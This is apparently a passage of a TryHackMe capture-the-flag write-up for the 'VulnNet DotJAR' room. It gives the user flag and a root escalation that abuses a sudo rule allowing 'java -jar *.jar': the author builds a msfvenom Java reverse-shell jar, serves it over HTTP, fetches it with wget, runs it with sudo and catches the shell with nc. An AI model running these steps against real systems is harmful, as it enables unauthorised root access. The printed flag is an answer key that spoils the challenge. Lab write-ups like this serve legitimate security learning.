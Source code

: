 <p>1.1. Ehat is the user flag? (user.txt)<br>
<code>THM{1ae87fa6ec2cd9f840c68cbad78e9351}</code></p>

<br>


```bash
jdk-admin@ip-10-201-69-245:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Password: 
Matching Defaults entries for jdk-admin on ip-10-201-69-245:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jdk-admin may run the following commands on ip-10-201-69-245:
    (root) /usr/bin/java -jar *.jar
```

<br>

```bash
:~/VulnNetDotJAR# msfvenom -p java/shell_reverse_tcp LHOST=10.201.1.67 LPORT=9001 -f jar > rev.jar
Payload size: 7502 bytes
Final size of jar file: 7502 bytes
```

```bash
:~/VulnNetDotJAR# nc -nlvp 9001
```


```bash
:~/VulnNetDotJAR# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
jdk-admin@ip-10-201-69-245:/dev/shm$ wget http://10.201.1.67:8000/rev.jar
--2025-08-12 20:01:36--  http://10.201.1.67:8000/rev.jar
Connecting to 10.201.1.67:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7502 (7.3K) [application/java-archive]
Saving to: \u2018rev.jar\u2019

rev.jar             100%[===================>]   7.33K  --.-KB/s    in 0s      

2025-08-12 20:01:36 (425 MB/s) - \u2018rev.jar\u2019 saved [7502/7502]

jdk-admin@ip-10-201-69-245:/dev/shm$ sudo /usr/bin/java -jar rev.jar
Password: 
```
